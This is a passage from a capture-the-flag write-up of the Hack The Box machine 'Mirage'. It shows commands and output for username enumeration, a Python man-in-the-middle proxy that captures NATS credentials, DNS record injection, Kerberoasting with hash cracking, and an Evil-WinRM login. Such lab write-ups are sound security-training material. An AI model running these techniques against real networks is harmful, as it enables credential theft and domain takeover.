└─$ ~/opt/05_password_attacks/kerbrute/kerbrute userenum -d mirage.htb --dc dc01.mirage.htb usernames.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 07/19/25 - Ronnie Flathers @ropnop

2025/07/19 21:47:14 >  Using KDC(s):
2025/07/19 21:47:14 >   dc01.mirage.htb:88

2025/07/19 21:47:14 >  [+] VALID USERNAME:       Dev_Account_A@mirage.htb
2025/07/19 21:47:15 >  [+] VALID USERNAME:       Dev_Account_B@mirage.htb
2025/07/19 21:47:15 >  Done! Tested 5 usernames (2 valid) in 0.078 seconds
```

| Username      |
| ------------- |
| dev_account_b |

## NATS Server

Now it was time to take a look at the `NATS Server` running on the `VHost` of `nats-svc.mirage.htb` on port `4222/TCP`.

Therefore we installed the `nats-cli` from their `GitHub Repository`.

- [https://github.com/nats-io](https://github.com/nats-io)
- [https://github.com/nats-io/natscli](https://github.com/nats-io/natscli)

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ go install github.com/nats-io/natscli/nats@latest
<--- CUT FOR BREVITY --->
```

The first `unauthenticated` approach resulted in an `Authorization Violation` message.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ nats server check connection -s nats://nats-svc.mirage.htb:4222                   
CRITICAL Connection Crit:connection failed: nats: Authorization Violation
```

### Banner Grabbing

Next we connected to the server using `Netcat` to perform `Banner Grabbing` and to get more information about the running instance.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ nc nats-svc.mirage.htb 4222
INFO {"server_id":"NA76ZQ4C2IAVVOTXHMXQ53CKXES2IOYGQKNB375NKXFIGZNEPVDNBNIH","server_name":"NA76ZQ4C2IAVVOTXHMXQ53CKXES2IOYGQKNB375NKXFIGZNEPVDNBNIH","version":"2.11.3","proto":1,"git_commit":"a82cfda","go":"go1.24.2","host":"0.0.0.0","port":4222,"headers":true,"auth_required":true,"max_payload":1048576,"jetstream":true,"client_id":62,"client_ip":"10.10.16.18","xkey":"XBIUDKN264VVVEC345JAEYY6BFZV7P2K33UTZ6RKAUATEZCC253BAICS"} 
-ERR 'Authentication Timeout'
```

| Version |
| ------- |
| 2.11.3  |

A bit of research showed that basically every release above version `2.11.0` was secure or at least there were no known vulnerabilities to it.

## Man-In-The-Middle (MITM) Attack

So due to the fact that already known vulnerabilities were no option we decided to take the `Man-In-The-Middle (MITM)` approach.

Therefore we forged a custom `NATS Server` mimicking the `endpoint` to which client's would reach out.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ cat proxy.py 
import socket
import threading

PROXY_HOST = '0.0.0.0'
PROXY_PORT = 4222
TARGET_HOST = '10.129.182.181'
TARGET_PORT = 4222
OUTPUT_FILE = 'nats_capture.log'

def log_traffic(payload, direction, peer):
    try:
        prefix = f"[{peer[0]}:{peer[1]}]"
        entry = f"{prefix} {direction} {payload.decode(errors='replace')}".strip()
        print(entry)
        with open(OUTPUT_FILE, 'a') as f:
            f.write(entry + "\n")
    except:
        pass

def relay(source, destination, direction, peer):
    while True:
        try:
            data = source.recv(4096)
            if not data:
                break
            log_traffic(data, direction, peer)
            destination.sendall(data)
        except:
            break
    source.close()
    destination.close()

def handle_connection(client_socket, client_address):
    try:
        upstream_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        upstream_socket.connect((TARGET_HOST, TARGET_PORT))
    except:
        client_socket.close()
        return
    threading.Thread(target=relay, args=(client_socket, upstream_socket, "→", client_address)).start()
    threading.Thread(target=relay, args=(upstream_socket, client_socket, "←", client_address)).start()

def run_proxy():
    listener = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    listener.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    listener.bind((PROXY_HOST, PROXY_PORT))
    listener.listen(5)
    print(f"[+] Listening on {PROXY_HOST}:{PROXY_PORT} -> {TARGET_HOST}:{TARGET_PORT}")
    while True:
        client_socket, client_address = listener.accept()
        print(f"[+] New connection from {client_address}")
        threading.Thread(target=handle_connection, args=(client_socket, client_address)).start()

if __name__ == "__main__":
    run_proxy()
```

The attack would only work if we could control the `DNS` on the target and so we simply tried to add a `DNS A Record` pointing to our local machine using `nsupdate`.

```shell
┌──(kali㉿kali)-[~]
└─$ nsupdate
> server 10.129.182.181
> update add nats-svc.mirage.htb 3600 A 10.10.16.18
> send
```

Then we started the server and right after a few seconds we got a hit leaking the `cleartext password` of `Dev_Account_A`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ python3 proxy.py
[+] Listening on 0.0.0.0:4222 -> 10.129.182.181:4222
[+] New connection from ('10.129.182.181', 64008)
[10.129.182.181:64008] ← INFO {"server_id":"NA76ZQ4C2IAVVOTXHMXQ53CKXES2IOYGQKNB375NKXFIGZNEPVDNBNIH","server_name":"NA76ZQ4C2IAVVOTXHMXQ53CKXES2IOYGQKNB375NKXFIGZNEPVDNBNIH","version":"2.11.3","proto":1,"git_commit":"a82cfda","go":"go1.24.2","host":"0.0.0.0","port":4222,"headers":true,"auth_required":true,"max_payload":1048576,"jetstream":true,"client_id":137,"client_ip":"10.10.16.18","xkey":"XBIUDKN264VVVEC345JAEYY6BFZV7P2K33UTZ6RKAUATEZCC253BAICS"}
[10.129.182.181:64008] → CONNECT {"verbose":false,"pedantic":false,"user":"Dev_Account_A","pass":"hx5h7F5554fP@1337!","tls_required":false,"name":"NATS CLI Version 0.2.2","lang":"go","version":"1.41.1","protocol":1,"echo":true,"headers":true,"no_responders":true}
[10.129.182.181:64008] → PING
[10.129.182.181:64008] ← PONG
```

| Username      | Password           |
| ------------- | ------------------ |
| Dev_Account_A | hx5h7F5554fP@1337! |

We verified the `username` and `password` by authenticating against the `NATS Server` and got in.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ nats server check connection \
  -s nats://nats-svc.mirage.htb:4222 \
  --user Dev_Account_A \
  --password 'hx5h7F5554fP@1337!'

OK Connection OK:connected to nats://nats-svc.mirage.htb:4222 in 78.923828ms OK:rtt time 63.507058ms OK:round trip took 0.011802s | connect_time=0.0789s;0.5000;1.0000 rtt=0.0635s;0.5000;1.0000 request_time=0.0118s;0.5000;1.0000
```

## NATS Server Enumeration

Now for convenience we exported `username`, `password` and the `address` of the `NATS Server` and started `subscribing` to various channels.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ export NATS_USER=Dev_Account_A
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ export NATS_PASS='hx5h7F5554fP@1337!'
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ export NATS_SERVER=nats://nats-svc.mirage.htb:4222
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ nats sub '>' -s $NATS_SERVER --user $NATS_USER --password "$NATS_PASS" --count=10

23:03:35 Subscribing on >
```

First we got some random information incoming which contained `auth_logs` as a option to subscribing for.

```shell
23:03:35 Subscribing on > 
[#1] Received on "$JS.API.STREAM.INFO.auth_logs" with reply "_INBOX.OKu2UXi12Oysn1hook95VP.nwNyEucl"
nil body


[#2] Received on "_INBOX.OKu2UXi12Oysn1hook95VP.nwNyEucl"
{"type":"io.nats.jetstream.api.v1.stream_info_response","total":0,"offset":0,"limit":0,"config":{"name":"auth_logs","subjects":["logs.auth"],"retention":"limits","max_consumers":-1,"max_msgs":100,"max_bytes":1048576,"max_age":0,"max_msgs_per_subject":-1,"max_msg_size":-1,"discard":"new","storage":"file","num_replicas":1,"duplicate_window":120000000000,"compression":"none","allow_direct":true,"mirror_direct":false,"sealed":false,"deny_delete":true,"deny_purge":true,"allow_rollup_hdrs":false,"consumer_limits":{},"allow_msg_ttl":false,"metadata":{"_nats.level":"1","_nats.req.level":"0","_nats.ver":"2.11.3"}},"created":"2025-05-05T07:18:19.6244845Z","state":{"messages":5,"bytes":570,"first_seq":1,"first_ts":"2025-05-05T07:18:56.6788658Z","last_seq":5,"last_ts":"2025-05-05T07:19:27.2106658Z","num_subjects":1,"consumer_count":0},"cluster":{"leader":"NA76ZQ4C2IAVVOTXHMXQ53CKXES2IOYGQKNB375NKXFIGZNEPVDNBNIH"},"ts":"2025-07-20T04:04:01.4751039Z"}


[#3] Received on "$JS.EVENT.ADVISORY.API"
{"type":"io.nats.jetstream.advisory.v1.api_audit","id":"QokmZ5AszsDAuAaqVMVES7","timestamp":"2025-07-20T04:04:01.4756221Z","server":"NA76ZQ4C2IAVVOTXHMXQ53CKXES2IOYGQKNB375NKXFIGZNEPVDNBNIH","client":{"start":"2025-07-19T21:04:01.4719606-07:00","host":"dead:beef::1e5","id":147,"acc":"dev","user":"Dev_Account_A","name":"NATS CLI Version 0.2.2","lang":"go","ver":"1.41.1","rtt":3049400,"server":"NA76ZQ4C2IAVVOTXHMXQ53CKXES2IOYGQKNB375NKXFIGZNEPVDNBNIH","kind":"Client","client_type":"nats"},"subject":"$JS.API.STREAM.INFO.auth_logs","response":"{\"type\":\"io.nats.jetstream.api.v1.stream_info_response\",\"total\":0,\"offset\":0,\"limit\":0,\"config\":{\"name\":\"auth_logs\",\"subjects\":[\"logs.auth\"],\"retention\":\"limits\",\"max_consumers\":-1,\"max_msgs\":100,\"max_bytes\":1048576,\"max_age\":0,\"max_msgs_per_subject\":-1,\"max_msg_size\":-1,\"discard\":\"new\",\"storage\":\"file\",\"num_replicas\":1,\"duplicate_window\":120000000000,\"compression\":\"none\",\"allow_direct\":true,\"mirror_direct\":false,\"sealed\":false,\"deny_delete\":true,\"deny_purge\":true,\"allow_rollup_hdrs\":false,\"consumer_limits\":{},\"allow_msg_ttl\":false,\"metadata\":{\"_nats.level\":\"1\",\"_nats.req.level\":\"0\",\"_nats.ver\":\"2.11.3\"}},\"created\":\"2025-05-05T07:18:19.6244845Z\",\"state\":{\"messages\":5,\"bytes\":570,\"first_seq\":1,\"first_ts\":\"2025-05-05T07:18:56.6788658Z\",\"last_seq\":5,\"last_ts\":\"2025-05-05T07:19:27.2106658Z\",\"num_subjects\":1,\"consumer_count\":0},\"cluster\":{\"leader\":\"NA76ZQ4C2IAVVOTXHMXQ53CKXES2IOYGQKNB375NKXFIGZNEPVDNBNIH\"},\"ts\":\"2025-07-20T04:04:01.4751039Z\"}"}
```

We canceled the running subscription and took a look at `auth_logs`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ nats stream info auth_logs -s $NATS_SERVER --user $NATS_USER --password "$NATS_PASS"

Information for Stream auth_logs created 2025-05-05 09:18:19

                Subjects: logs.auth
                Replicas: 1
                 Storage: File

Options:

               Retention: Limits
         Acknowledgments: true
          Discard Policy: New
        Duplicate Window: 2m0s
              Direct Get: true
    Allows Batch Publish: false
         Allows Counters: false
       Allows Msg Delete: false
  Allows Per-Message TTL: false
            Allows Purge: false
          Allows Rollups: false

Limits:

        Maximum Messages: 100
     Maximum Per Subject: unlimited
           Maximum Bytes: 1.0 MiB
             Maximum Age: unlimited
    Maximum Message Size: unlimited
       Maximum Consumers: unlimited

State:

            Host Version: 2.11.3
      Required API Level: 0 hosted at level 1
                Messages: 5
                   Bytes: 570 B
          First Sequence: 1 @ 2025-05-05 09:18:56
           Last Sequence: 5 @ 2025-05-05 09:19:27
        Active Consumers: 0
      Number of Subjects: 1
```

Then we tried dumping all to a file in order to catch the content.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ nats consumer add auth_logs nats_dump --pull --ack explicit -s $NATS_SERVER --user $NATS_USER --password "$NATS_PASS"

? Start policy (all, new, last, subject, 1h, msg sequence) all
? Replay policy instant
? Filter Stream by subjects (blank for all) 
? Maximum Allowed Deliveries -1
? Maximum Acknowledgments Pending 0
? Deliver headers only without bodies No
? Add a Retry Backoff Policy No
Information for Consumer auth_logs > nats_dump created 2025-07-20 06:08:06

Configuration:

                    Name: nats_dump
               Pull Mode: true
          Deliver Policy: All
              Ack Policy: Explicit
                Ack Wait: 30.00s
           Replay Policy: Instant
         Max Ack Pending: 1,000
       Max Waiting Pulls: 512

State:

            Host Version: 2.11.3
      Required API Level: 0 hosted at level 1
  Last Delivered Message: Consumer sequence: 0 Stream sequence: 0
    Acknowledgment Floor: Consumer sequence: 0 Stream sequence: 0
        Outstanding Acks: 0 out of maximum 1,000
    Redelivered Messages: 0
    Unprocessed Messages: 5
           Waiting Pulls: 0 of maximum 512
```

And right after we finished the prerequisites for the dump and `subscribed` again to `auth_logs` we found a new `username` and `password`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ nats consumer next auth_logs nats_dump --count=5 -s $NATS_SERVER --user $NATS_USER --password "$NATS_PASS"

[23:08:22] subj: logs.auth / tries: 1 / cons seq: 1 / str seq: 1 / pending: 4

{"user":"david.jjackson","password":"pN8kQmn6b86!1234@","ip":"10.10.10.20"}

Acknowledged message

[23:08:22] subj: logs.auth / tries: 1 / cons seq: 2 / str seq: 2 / pending: 3

{"user":"david.jjackson","password":"pN8kQmn6b86!1234@","ip":"10.10.10.20"}

Acknowledged message

[23:08:22] subj: logs.auth / tries: 1 / cons seq: 3 / str seq: 3 / pending: 2

{"user":"david.jjackson","password":"pN8kQmn6b86!1234@","ip":"10.10.10.20"}

Acknowledged message

[23:08:22] subj: logs.auth / tries: 1 / cons seq: 4 / str seq: 4 / pending: 1

{"user":"david.jjackson","password":"pN8kQmn6b86!1234@","ip":"10.10.10.20"}

Acknowledged message

[23:08:22] subj: logs.auth / tries: 1 / cons seq: 5 / str seq: 5 / pending: 0

{"user":"david.jjackson","password":"pN8kQmn6b86!1234@","ip":"10.10.10.20"}

Acknowledged message
```

| Username       | Password          |
| -------------- | ----------------- |
| david.jjackson | pN8kQmn6b86!1234@ |

## Requesting a Kerberos Ticket as david.jjackson

Finally we got our first real user for which we requested a `Kerberos Ticket` in order to `authenticate` against the `Domain`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ impacket-getTGT mirage.htb/david.jjackson:'pN8kQmn6b86!1234@'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in david.jjackson.ccache
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ export KRB5CCNAME=david.jjackson.ccache
```

## Enumeration of Port 445/TCP (Authenticated)

Now within our `authenticated terminal session` we double-checked on port `445/TCP`. We only found `IPC$` readable and useful but that was totally fine. We just yet started.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ netexec smb dc01.mirage.htb -k --use-kcache --shares
SMB         dc01.mirage.htb 445    dc01             [*]  x64 (name:dc01) (domain:mirage.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         dc01.mirage.htb 445    dc01             [+] MIRAGE.HTB\david.jjackson from ccache 
SMB         dc01.mirage.htb 445    dc01             [*] Enumerated shares
SMB         dc01.mirage.htb 445    dc01             Share           Permissions     Remark
SMB         dc01.mirage.htb 445    dc01             -----           -----------     ------
SMB         dc01.mirage.htb 445    dc01             ADMIN$                          Remote Admin
SMB         dc01.mirage.htb 445    dc01             C$                              Default share
SMB         dc01.mirage.htb 445    dc01             IPC$            READ            Remote IPC
SMB         dc01.mirage.htb 445    dc01             NETLOGON        READ            Logon server share 
SMB         dc01.mirage.htb 445    dc01             SYSVOL          READ            Logon server share
```

## RID Brute Forcing

For potential `Password Spraying` we performed a quick `RID Brute Force` to get a list of `usernames`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ netexec smb dc01.mirage.htb -k --use-kcache --rid-brute | grep 'SidTypeUser' | awk '{print $6}'  | awk -F '\\' '{print $2}'
Administrator
Guest
krbtgt
DC01$
Dev_Account_A
Dev_Account_B
david.jjackson
javier.mmarshall
mark.bbond
nathan.aadam
Mirage-Service$
svc_mirage
```

## Active Directory Certificate Services (AD CS) Check

Due to our basic checks we fired up `NetExec` with the `Module` for `Active Directory Certificate Services (AD CS)` and found a `Certificate Authority` called `mirage-DC01-CA`. So potential `AD CS` as `Domain Dominance` vector was confirmed.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ netexec ldap dc01.mirage.htb -k --use-kcache -M adcs                                                  
LDAP        dc01.mirage.htb 389    DC01             [*] None (name:DC01) (domain:mirage.htb)
LDAP        dc01.mirage.htb 389    DC01             [+] mirage.htb\nathan.aadam from ccache 
ADCS        dc01.mirage.htb 389    DC01             [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        dc01.mirage.htb 389    DC01             Found PKI Enrollment Server: dc01.mirage.htb
ADCS        dc01.mirage.htb 389    DC01             Found CN: mirage-DC01-CA
```

## Active Directory Configuration Dump

To plan our next steps we `dumped` the `configuration` of the `Active Directory` using the `Module` for `BloodHound`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ netexec ldap dc01.mirage.htb -k --use-kcache --bloodhound --dns-tcp --dns-server 10.129.182.181 -c all
LDAP        dc01.mirage.htb 389    DC01             [*] None (name:DC01) (domain:mirage.htb)
LDAP        dc01.mirage.htb 389    DC01             [+] mirage.htb\david.jjackson from ccache 
LDAP        dc01.mirage.htb 389    DC01             Resolved collection methods: group, trusts, acl, localadmin, container, dcom, session, rdp, psremote, objectprops
LDAP        dc01.mirage.htb 389    DC01             Using kerberos auth without ccache, getting TGT
LDAP        dc01.mirage.htb 389    DC01             Using kerberos auth from ccache
LDAP        dc01.mirage.htb 389    DC01             Done in 00M 10S
LDAP        dc01.mirage.htb 389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_dc01.mirage.htb_2025-07-20_061739_bloodhound.zip
```

## Foothold

### Kerberoasting

The first look at the dumped configuration in `BloodHound` showed us one `kerberoastable account` called `nathan.aadam`. Now we used once more a `Module` of `NetExec` to get the `roastable ticket` for cracking.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ netexec ldap dc01.mirage.htb -k --use-kcache --kerberoasting hashes.kerberoasting                     
LDAP        dc01.mirage.htb 389    DC01             [*] None (name:DC01) (domain:mirage.htb)
LDAP        dc01.mirage.htb 389    DC01             [+] mirage.htb\david.jjackson from ccache 
LDAP        dc01.mirage.htb 389    DC01             [*] Skipping disabled account: krbtgt
LDAP        dc01.mirage.htb 389    DC01             [*] Total of records returned 1
LDAP        dc01.mirage.htb 389    DC01             [*] sAMAccountName: nathan.aadam, memberOf: ['CN=Exchange_Admins,OU=Groups,OU=Admins,OU=IT_Staff,DC=mirage,DC=htb', 'CN=IT_Admins,OU=Groups,OU=Admins,OU=IT_Staff,DC=mirage,DC=htb'], pwdLastSet: 2025-06-23 23:18:18.584667, lastLogon: 2025-07-04 22:01:43.511763
LDAP        dc01.mirage.htb 389    DC01             $krb5tgs$23$*nathan.aadam$MIRAGE.HTB$mirage.htb\nathan.aadam*$4026d4be92a8082329b23c6e5503f0cf$49f55426fff6b59f9bcfb583d2c2d9fea000433c493f16d382bd28725a83107b3ba61fb51299b187d4e16e4c75b52888112af4414cff53b43e14d3d2eee1c7097ef0e5b71c8ae82b5f998916c126721da822efc38499a21028d8f575c61f4b2bf66c43b9c08fb161f1fd3dd723ba3a9f9dded37bf108cfaf13ab9bfacf681add9ea8f0e0812cc8b93c6712e969dba6af0afded7f5c0826787de0322ff1e92272d3ca23ff42eec198750883b30cfb2120e881b7983494b5caa128d7d9b76183f0ddd066b48051d58433ef2de25627b8b860f9946aea018be724a6898a1f3145a3a23bb41ba9880b52c208a6eecea85be67d619f0a858b77a648d755309e9980f426dbe12cef7d005b69f0fca7f3d5c4a4b07efac3ee77b109995a4c53d8eca58503ae449ee3428e34bc95258b2cde4cbd6ddaa8e7cb0da704c832c6cbdcfe9b238f0baf2a61083af7d82213838283e333969890dd55dc0a4d3f358344a15ee3c2995469c84529b9287c9eea4647468c4d97cc6a405e9a74c33dc070d2369eff6cec6a0a95665bac376333de86910b0ec355c4bafe16217c3b7e3f9c74a9d84a82b7a0f70e23413945f88187708f7a82c51aea3fda995709321aa9cd27e6b329978c8e44d640f22deb1af17f40c38db6d8cc83fb7b126a085565a887a43af9a55664e129cb5d55cef288e2d5c8e8b5868a158228abc258126bd710e2718effe009f60a77e0e65bc3152a79e7c492fcc72ee45677da06563a1df1f1ba66f1860e7949d8b4b3f106b84340162de3ce32dc72604b2b16ca364b27f673078545cfe98da4c85b2fa8bc8d6c2312239819fcb8936b7aac4122908b3daabe6a670d83a69dc7fe9787e4fbc92575cd61f76a6bb432e15a5a0fdb6b7c87632c1ffb6bda7bacb5761d772db6dd8b03885c3fbaa4b792bb18ebf92450a66e93a47fa579525dbd1854e7cdbe24bc4412e32ca6a2c58447693a623f6516ce63fd0611efbacd6abf63f0df6dc95ba799cbfe341f32ae0afc6415b8bde642ff67bdc9c09971d13ae156a2d8c4f50bf77c06ea2a898478b1361cd3d342871ef3bf6a7eb9a4b56376de8f7dce8157c9fc81f794756c7fea14a9a7b012078bee21ea22a60e55406cfea80d0c952b22507dcc5408ad83cd2ccfe09459519f9fad9c0f4ec34969f14a70fe5738b0862c1489218697740580367426df2224a81a8fbe429d70c6646fdaa3294579beca8b9f7109d6f0e9ccdb53fcc73b2afb62a10f119fb1f607b6ca2db273091cea6a627633387412ff3d2c16a978cd0dbd5123acfebfc4b1cadafbdd1435c0791721a91f48221b730ddaad8c99bd20d57c7379101bda340ef53cd451f502a6596545d3f77d922e79935f36bd6acfba07bc21e14d311fb10c2cbd2b69afaa4f2541c733fd688c8e9e565ea7fb9602bd646dae1d2a0106793757888eed3926c9d2e37a3b3a033f181a3abcea313fb1748bbcf5ef2adc784dc85ae305a3af5d5c8caa9f64391bd546a79d39d7e47869563e16dbb4f9f3dce5877fa312fa409f16ba35ad797dc7b2a1a8eef8ab8ddf876b548ac99a51d731fd
```

### Cracking the Kerberos Ticket using John the Ripper

We threw the `Kerberos Ticket` into a file and let `John the Ripper` do his magic.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ sudo john hashes.kerberoasting --wordlist=/usr/share/wordlists/rockyou.txt 
[sudo] password for kali: 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
3edc#EDC3        (?)     
1g 0:00:00:07 DONE (2025-07-20 06:18) 0.1298g/s 1619Kp/s 1619Kc/s 1619KC/s 3er733..3ddfiebw
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

| Username     | Password  |
| ------------ | --------- |
| nathan.aadam | 3edc#EDC3 |

With the `password` of `nathan.aadam` we were able to request another `Kerberos Ticket` and login using `Evil-WinRM`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ impacket-getTGT mirage.htb/nathan.aadam:'3edc#EDC3'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in nathan.aadam.ccache
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ export KRB5CCNAME=nathan.aadam.ccache
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Mirage/files]
└─$ evil-winrm -i dc01.mirage.htb -u 'nathan.aadam' -r MIRAGE.HTB
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: User is not needed for Kerberos auth. Ticket will be used
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\nathan.aadam\Documents>
```

## user.txt

Luckily for us `nathan.aadam` was holder of the `user.txt` which we grabbed and moved on.

```cmd
*Evil-WinRM* PS C:\Users\nathan.aadam\Desktop> type user.txt
a7991328ea2bcb2f50e471834e849a06
```

## Enumeration (nathan.aadam)

As `nathan.aadam` we quickly had a look at the given `privileges` but since there was nothing useful, we headed back to `BloodHound`.

```cmd
*Evil-WinRM* PS C:\Users\nathan.aadam\Documents> whoami /all

USER INFORMATION
----------------

User Name           SID
=================== ==============================================
mirage\nathan.aadam S-1-5-21-2127163471-3824721834-2568365109-1110


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ==================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
MIRAGE\Exchange_Admins                      Group            S-1-5-21-2127163471-3824721834-2568365109-2601 Mandatory group, Enabled by default, Enabled group
MIRAGE\IT_Admins                            Group            S-1-5-21-2127163471-3824721834-2568365109-1106 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity  Well-known group S-1-18-1                                       Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

Our current user was member of some unique groups but none of them were very useful in particular. Especially had given some useful `Outbound Object Controls`.



## Privilege Escalation to mark.bbond

This was a dead end which brought us to the enumeration of the other available users like `mark.bbond` which as member of the `IT_SUPPORT` group had the `Access Control Entry (ACE)` of `ForceChangePassword` granted on `javier.mmarschall`.



### Winlogon Credentials

Our plan was to somehow `escalate` our `privileges` to `mark.bbond`. Therefore we started manually enumerating the box until we found some `Winlogon Credentials`.

```cmd
*Evil-WinRM* PS C:\Users\nathan.aadam\Documents> reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    AutoRestartShell    REG_DWORD    0x1
    Background    REG_SZ    0 0 0
    CachedLogonsCount    REG_SZ    10
    DebugServerCommand    REG_SZ    no
    DefaultDomainName    REG_SZ    MIRAGE
